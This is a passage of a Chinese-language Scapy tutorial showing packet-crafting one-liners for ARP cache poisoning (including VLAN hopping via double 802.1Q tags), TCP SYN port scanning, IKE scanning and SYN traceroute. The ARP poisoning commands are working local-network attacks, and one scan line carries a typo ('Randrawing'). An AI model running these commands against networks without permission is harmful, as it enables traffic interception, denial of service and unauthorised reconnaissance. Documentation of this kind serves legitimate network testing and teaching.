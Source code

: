 ## ARP 缓存投毒

这种攻击可以通过 VLAN 跳跃攻击投毒 ARP 缓存，使得其他客户端无法加入真正的网关地址。

经典的 ARP 缓存投毒：    

```shell
>>> send( Ether(dst=clientMAC)/ARP(op="who-has", psrc=gateway, pdst=client),
      inter=RandNum(10,40), loop=1 )
```

使用 double 802.1q 封装进行 ARP 缓存投毒：

```shell
>>> send( Ether(dst=clientMAC)/Dot1Q(vlan=1)/Dot1Q(vlan=2)
      /ARP(op="who-has", psrc=gateway, pdst=client),
      inter=RandNum(10,40), loop=1 )
```

## TCP Port Scanning

发送一个 TCP SYN 到每一个端口上。等待一个 SYN-ACK 或者是 RST 或者是一个 ICMP 错误：

```shell
>>> res,unans = sr( IP(dst="target")
                /TCP(flags="S", dport=(1,1024)) )
```

将开放的端口结果可视化：

```shell
>>> res.nsummary( lfilter=lambda (s,r): (r.haslayer(TCP) and (r.getlayer(TCP).flags & 2)) )
```

## IKE Scanning

我们试图通过发送ISAKMP Security Association proposals来确定VPN集中器，并接收应答：

```shell
>>> res,unans = sr( IP(dst="192.168.1.*")/UDP()
                /ISAKMP(init_cookie=Randrawing(8), exch_type="identity prot.")
                /ISAKMP_payload_SA(prop=ISAKMP_payload_Proposal())
              )
```

可视化结果列表：

```shell
>>> res.nsummary(prn=lambda (s,r): r.src, lfilter=lambda (s,r): r.haslayer(ISAKMP) )
```

## Advanced traceroute

### TCP SYN traceroute

```shell
>>> ans,unans=sr(IP(dst="4.2.2.1",ttl=(1,10))/TCP(dport=53,flags="S"))
```
